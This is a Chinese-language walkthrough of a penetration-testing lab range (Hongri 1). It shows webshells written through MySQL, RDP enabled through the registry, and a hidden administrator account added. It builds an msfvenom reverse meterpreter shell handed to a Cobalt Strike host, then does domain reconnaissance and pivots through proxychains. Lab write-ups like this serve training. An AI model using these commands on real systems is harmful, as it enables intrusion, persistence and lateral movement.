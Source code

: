 # 红日1靶场(一)

搭建环境过程省略

拓扑图
ip

dc 192.168.52.141

成员 192.168.52.138

web 192.168.72.4 192.168.52.143



### 信息收集

2.1扫描主机

```
netdiscover
```



![image-20200812155453582](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200812155453582.png)

2.2探测端口

```
nmap -sC -sV -Pn -p 1-65525 192.168.72.4          //-sC根据端口识别服务 -sV版本探测 -Pn不检测主机存活 -p扫描指定端口
```

![image-20200812155928191](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200812155928191.png)

2.3打开发现一个php探针模块 滑到最下面 发现可以连接mysql数据库 默认密码 root root

另外还有一个,也可以尝试getshell,这个地方需要爆破后台之后 ,通过后台才可以getshell

http://192.168.72.4/yxcms/index.php?r=admin/index/index

![image-20200812160516081](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200812160516081.png)

![image-20200812160756335](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200812160756335.png)

![image-20200812160733487](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200812160733487.png)

2.4利用phpadmin getshell 有两种方法into outfile 和 利用日志文件写入

第一种 利用条件 需要知道网站绝对路径 和root权限 [其实方法是对的,鉴于mysql的新特性而言等会补充]

```sql
select  '<?php eval($_POST[cmd]); ?>'  into outfile  'C:/phpStudy/WWWshell.php';
```

提示这个

![image-20200813083217060](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200813083217060.png)

第二种利用mysql日志写入

```mysql
#查看日志状态
show variables  like  '%general%';
#这里解释一下,当开启general时,所执行的sql语句就会生成对应的文件中
SET GLOBAL general_log='on'
SET GLOBAL general_log_file='C:/phpStudy/www/233.php'
SELECT '<?php eval($_POST["cmd"]);?>'
```

![img](https://mmbiz.qpic.cn/mmbiz_png/ddqrZtAEBOiaW4QMLSzMxVTk7RcjliaATzpOFVmVia9x0kf4tVjNoIic35OxTicDgXmNOhR7I992B4eRqRQutw9IjkQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

**![image-20200813100723299](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200813100723299.png)**

2.5这里我们已经getshell并连接上了.开始一波内网信息收集

![image-20200813102958077](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200813102958077.png)

2.5因为是练习,我们在尝试一下第二种getshell的方法



# 内网渗透

3.1尝试远程登录

查看当前用户权限,如果渗透进去发现是Windows系统的话,首先尝试连接他的远程桌面,所以再看一下3389端口开放情况

![image-20200813103313458](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200813103313458.png)

```shell
#运行下面的命令,有回显说明打开的,没有回显说明关闭的
netstat -an | find "3389"
#运行下面的命令,打开3389端口,八个0是打开 八个一是关闭
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

```

3.2添加一条用户,尝试利用3389远程登录--发现连接不上,估计和防火墙,有关系,可能有白名单也说不定

```powershell
net user test 1234.com /add
net localgroup administrators test /add
net user test
```

![image-20200813104338630](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200813104338630.png)

![image-20200813104945055](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200813104945055.png)

3.3使用msf制作木马利用webshell上传执行

```bash
#制作木马
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.72.12 LPORT=7521 -f exe > msf.exe
#msf反弹shell
msf5 > use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.72.5
msf5 exploit(multi/handler) > set lport 7521
msf5 exploit(multi/handler) > exploit 
#msf和cs联动 cs就会接受到shell
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set DisablePayloadHandler true 
set lhost 120.92.211.101
set lport 80
set session 1
exploit 

```

![image-20200814201541186](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814201541186.png)

![image-20200814201811713](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814201811713.png)

![image-20200814201939532](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814201939532.png)

3.4 利用cs打开beacon界面 输入命令--思路差不多就是 域是什么 域里面几个用户 域几台主机 域控是谁 webIp

```powershell
#内网信息收集常用命令
net time /domain        #查看时间服务器，判断主域，主域服务器都做时间服务器
net user /domain        #查看域用户
net view /domain        #查看有几个域
ipconfig /all 　　　　　  #查询本机IP段，所在域等 
net config Workstation  #当前计算机名，全名，用户名，系统版本，工作站域，登陆域 
net user 　　　　　　　   #本机用户列表
net group "domain computers" /domain   #查看域内所有的主机名 
net group "domain admins" /domain      #查看域管理员 
net group "domain controllers" /domain #查看域控
net localhroup administrators          #本机管理员[通常含有域用户]
net user 用户名 /domain                 #获取指定用户的账户信息  
net group /domain                      #查询域里面的工作组 
net group 组名 /domain                  #查询域中的某工作组

```

```
域 owa.god.org
域中用户 administrator ligang liukaifeng01 
域中主机 
域控是 owa 192.168.52.138 主机有三台 
自己ip 192.168.72.4 192.168.52.142
```

![image-20200814202248739](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814202248739.png)

![image-20200814202515714](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814202515714.png)

# 三 横向移动

​    因为我们目前就只拿下了外网,我们的最终目标是拿下域控

3.1添加路由

```
meterpreter > run autoroute -s 192.168.52.0/24

```

![image-20200814210553057](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814210553057.png)

3.2添加代理步骤

```
use auxiliary/server/socks4a
run
编辑配置文件
vim /etc/proxychains.conf
#可以这样测试一下,不建议用ping 可能ping不通
msf5 auxiliary(server/socks4a) > proxychains curl http://192.168.52.143

```

![image-20200814210926814](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814210926814.png)

![image-20200814211154891](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814211154891.png)

3.3开始对内网主机渗透

```
因为信息收集的时候内网是加上外网这台主机,有三台主机下面先对141这台主机一个渗透测试
(1)先扫描一下
msf5 auxiliary(server/socks4a) > proxychains nmap -p 1-1000 -Pn -sT 192.168.52.141
(2)开放了445端口 使用利用 扫描系统版本,发现是2003
use auxiliary/scanner/smb/smb_version

```

![image-20200814230443797](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814230443797.png)

![image-20200814230924286](https://blo-g.oss-cn-beijing.aliyuncs.com/mkdir/image-20200814230924286.png)

